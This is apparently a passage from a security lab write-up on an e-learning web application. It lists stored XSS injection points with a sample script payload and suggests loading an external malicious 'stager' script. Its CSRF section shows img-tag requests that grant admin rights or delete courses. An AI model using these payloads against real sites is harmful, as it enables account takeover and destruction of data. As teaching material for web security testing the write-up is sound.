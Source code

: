 Some stored locations can be seen below:

- lostpass.php 
    `/modules/auth/lostpass.php?userName=<script>alert(1213)</script>&email=yury@boyka.ru&doit=Αποστολή`


- work.php -- `name` of uploaded file
- adminannouncements.php -- `message`
- reply.php -- `reply` message

## Further Notes

In a context where CORS or multiple restrictions exist for our XSS payloads we would rationally choose to do an XHR (XML Http Request), that bypasses multiple problems and can be executed along with other **stager** JavaScript code via:

```html
<script src="<our malicious script location in puppies>"></script>
```

# CSRF

- Resource: [PayloadAllTheThings -- CSRF Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection).

## Intro
The below CSRF attacks have been performed by hand, after the initial exploitation of the application and having admin access already.

There is some CSRF protection that has shown itself here and there, but it's not functioning properly, therefore allowing most csrf attacks to take place. It can be seen via the [special attack](#the-let-me-fix-your-code-attack), where csrf tokens are all over the code but they fail to be included in post or get requests.

They are successful as far as understanding goes, since in every single form there is nowhere to be found a csrf token in the produced http request.

## Zoom-e

A simple weaponizer would be to inject image elements exploiting the below HTML GET request CSRF's, simply by the admin browsing to the page where the stored XSS lies.

```html
<img src="http://sloppy-clowns-0.csec.chatzi.org/<PAYLOAD>">
```

Scripts with a fetch() call are a go as well.

Below are some of the most interesting stuff we can do:

- `/modules/user/user.php?giveAdmin=4`:  
Gives admin access to user with id == 4 (if drunkadmin is focused on the course).

- `/modules/admin/addfaculte.php?a=2&c=13`:  
Deletes course with cid == 13.
